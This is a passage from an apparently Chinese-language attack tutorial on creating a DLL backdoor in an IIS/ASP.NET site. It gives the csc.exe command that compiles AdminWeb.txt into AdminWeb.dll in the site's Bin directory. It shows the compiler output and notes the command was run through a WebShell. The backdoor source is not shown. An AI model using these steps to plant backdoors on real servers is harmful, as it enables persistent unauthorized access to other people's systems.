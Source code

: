 其中 /t:library
表示生成dll，/r参数表示引用DLL，-out参数表示生成dll的位置，这里很显然得放到Bin目录下，完整命令如下

| C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\csc.exe /t:library /r:System.Web.dll -out:C:\\inetpub\\wwwroot\\Bin\\AdminWeb.dll C:\\inetpub\\wwwroot\\AdminWeb.txt |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


看到下列内容的输出，表示命令执行成功！

| C:\\Windows\\System32\> C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\csc.exe /t:library /r:System.Web.dll -out:C:\\inetpub\\wwwroot\\Bin\\AdminWeb.dll C:\\inetpub\\wwwroot\\AdminWeb.txt Microsoft (R) Visual C\# Compiler version 4.7.2053.0 for C\# 5 Copyright (C) Microsoft Corporation. All rights reserved. This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C\# 5, which is no longer the latest version. For compilers that support newer versions of the C\# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240 |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


WebShell执行结果如图

![](media/b1b915f96edc634bddebf8dbe94d5850.png)

再跳转到站点Bin目录下看到成功创建了想要的AdminWeb.dll文件，至此DLL版本的后门程序已经制作完成。

![](media/133611b75b1d6d6fdac5dbcc78c01d00.png)
